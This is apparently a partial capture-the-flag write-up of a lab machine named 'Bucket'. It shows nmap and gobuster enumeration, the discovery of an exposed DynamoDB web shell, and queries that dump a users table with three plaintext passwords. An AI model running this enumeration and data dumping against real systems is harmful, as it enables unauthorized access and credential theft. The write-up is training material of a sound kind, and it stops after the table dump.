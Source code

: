 # Bucket

export IP=10.10.10.212

# Solution

Start with a nmap scan

```
cmd: nmap -sC -sV -oN nmap/initial $IP

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/

```
We can already see a domain (<b> bucket.htb </b>), lets add to /etc/hosts <br>

Lets do an all port on the side... UPDATE: was taking toooo long, cancelled<br>

Visiting the website, we can already see two things
```
support@bucket.htb
http://s3.bucket.htb/adserver/images/bug.jpg
```

maybe <b> s3 </b> is a subdomain, lets add it to the /etc/hosts ! <br>

There is not much else to see... <br>

Lets fuzz 
```
cmd: gobuster dir -u http://bucket.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/big.log -x php,html,txt -t 70

/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```

Another gobuster (on the s3.bucket.htb)
```
/health (Status: 200)
/server-status (Status: 403)
/shell (Status: 200)
```

We now have a shell to interact with the dynamoDb in the AWS server (S3) <br>

After researching docs i listed all the tables (in the current db)
```

REQUEST
-----------------------------------------------------
dynamodb.listTables().eachPage(function(err, data) {
    if (err) {
        ppJson(err); // an error occurred
    } else if (data) {
        ppJson(data);
    }
});

######################################################

RESPONSE
-----------------------------------------------------
TableNames : Users
```

Now we need to check its structure
```
REQUEST
-----------------------------------------------------
var params = {
    TableName: "users",
};
dynamodb.describeTable(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});

######################################################
RESPONSE
-----------------------------------------------------

AttributeDefinitions : [
    "0" : {
        "AttributeName" : "username",
        "AttributeType" : S (string?!?!)
    },
    "1" : {
        "AttributeName" : "password",
        "AttributeType" : S (string?!?!)
    }

]
```

Types 
```
S - the attribute is of type String
N - the attribute is of type Number
B - the attribute is of type Binary
```

Now lets dump all the table !! 
```
REQUEST
-----------------------------------------------------
var params = {
    TableName: 'users',
    Select: "ALL_ATTRIBUTES"
};
docClient.scan(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});

######################################################
RESPONSE
-----------------------------------------------------
Items : [
    "0" : {
        "password" : "Management@#1@#",
        "username" : "Mgmt"
    },
    "1" : {
        "password" : "Welcome123!",
        "username" : "Cloudadm"
    },
    "2" : {
        "password" : "n2vM-<_K_Q:.Aa2",
        "username" : "Sysadm"
    }
]

```

Check tutorial on the shell